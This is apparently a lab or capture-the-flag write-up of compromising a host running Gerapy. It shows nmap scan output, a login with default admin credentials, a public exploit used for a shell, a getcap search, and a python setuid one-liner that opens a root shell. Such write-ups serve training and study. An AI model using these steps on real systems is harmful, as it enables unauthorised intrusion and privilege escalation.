






```sh
nmap -p- --min-rate 5000 -T4 -Pn 192.168.138.24
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-20 09:03 IST
Warning: 192.168.138.24 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.138.24
Host is up (0.090s latency).
Not shown: 65061 closed tcp ports (reset), 472 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt

Nmap done: 1 IP address (1 host up) scanned in 25.78 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 22,8000 192.168.138.24 
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-20 09:04 IST
Nmap scan report for 192.168.138.24
Host is up (0.079s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)
|_  256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)
8000/tcp open  http    WSGIServer 0.2 (Python 3.10.6)
|_http-cors: GET POST PUT DELETE OPTIONS PATCH
|_http-title: Gerapy
|_http-server-header: WSGIServer/0.2 CPython/3.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.25 seconds
```
Visited web server on port 8000.

Using default creds `admin : admin` , we were able to login.


Search for public exploits.

Run the exploit. But, it gave error. 

I checked Chatgpt, and it seems that the problem is that there is no porjects created on the platform. So i went there and create test project

Run the exploit again and you'll receive the shell.

We captured the local flag.

### Privileges Escalation
Sudo permission and SUID. We found nothing.

Searching for **Linux capabilities** assigned to files and we found one.
```sh
getcap -r / 2>/dev/null
```


I follow this and the root flag.
https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/
```python
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```


